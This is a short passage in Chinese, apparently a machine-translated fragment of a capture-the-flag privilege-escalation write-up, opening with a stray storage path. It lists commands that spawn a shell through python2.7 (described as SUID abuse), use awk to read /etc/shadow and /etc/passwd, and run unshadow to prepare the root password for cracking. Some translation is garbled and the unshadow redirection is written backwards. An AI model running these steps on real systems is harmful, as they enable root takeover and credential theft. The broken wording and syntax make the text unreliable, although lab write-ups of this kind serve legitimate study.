 从上面的 URL 抓取

![](img/b24c2f8c782af1882e75371f22b517f6.png)

找到烫发

python2.7 可以被利用。看到 SUID 了吗

```
$python2.7 -c “import pty; pty.spawn(‘/bin/sh’);”
```

![](img/50bbbd5610393a8d62faf203ce51b5f6.png)

拥有使用 python 的用户

**破解 root 密码**

```
$awk 'BEGIN{system("cat /etc/shadow")}'
```

![](img/8fd9a1a2cfe0938a79e61d1acb18076e.png)

/etc/shadow 文件

```
awk 'BEGIN{system("cat /etc/passwd")}'
```

![](img/fc7a6175f5d39ca83394974d91e28ec0.png)

/etc/passwd 文件

```
$unshadow passwd shadow < crack
```
